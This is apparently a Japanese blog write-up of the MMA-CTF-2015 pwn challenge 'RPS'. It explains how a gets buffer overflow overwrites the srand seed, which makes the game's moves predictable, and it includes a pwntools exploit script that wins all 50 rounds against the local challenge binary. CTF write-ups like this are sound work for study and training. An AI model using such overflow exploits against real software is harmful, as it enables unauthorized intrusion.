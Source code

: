 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/02/mma-ctf-2015-rps/
date: "2016-09-02T20:30:59+09:00"
tags: [ "ctf", "writeup", "pwn", "mmactf", "rand", "prng-prediction" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/rps-50" ]
---
```


# MMA-CTF-2015: RPS

解けず。seedを操作できていることに気付いていなかった。`srand`が見えたときに乱数予測は思い受かんだのだが、`/dev/urandom`を見て消してしまった。

bofからのropができるので、それを考えてしまっていた。
`flag.txt`を読んで書き出す処理をする部分があるのでここに飛ばしたいが、`gets`によるbofでかつ位置が`0x400a9a`なので書き込めず飛ばせない。
gadgetがあまりないので厳しく、以下なら可能だと判断したが、明らかに$50$点問題のそれではなかったのでwriteupを見た。

-   stack pivotしながらlibc baseを特定し`mmap`からの再度stack pivotでshellを取る
-   `gets`と`printf`の`%n`指定子による書き込みで`flag.txt`の読み出しアドレスを作る

## solution

buffer overflowにより`srand`のseedを操作できる。出してくる手は固定なので全勝できる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

payload = ''
payload += 'A' * 0x30 # name
payload += p64(0) # seed
assert payload.find('\n') == -1

def play(s, cont=(lambda p: None)):
    p = process('./rps')
    p.recvuntil("What's your name: ")
    p.sendline(payload)
    for i, c in enumerate(s):
        p.recvuntil('Rock? Paper? Scissors? [RPS]')
        p.sendline(c)
        p.recvline()
        if p.recvline().strip() != 'You win!!':
            p.close()
            return i
    cont(p)
    p.close()
    return len(s)

s = ''
while len(s) < 50:
    for c in 'RPS':
        t = s + c * (50 - len(s))
        l = play(t)
        s = t[ : l]
play(s, lambda p: p.recvall())
```
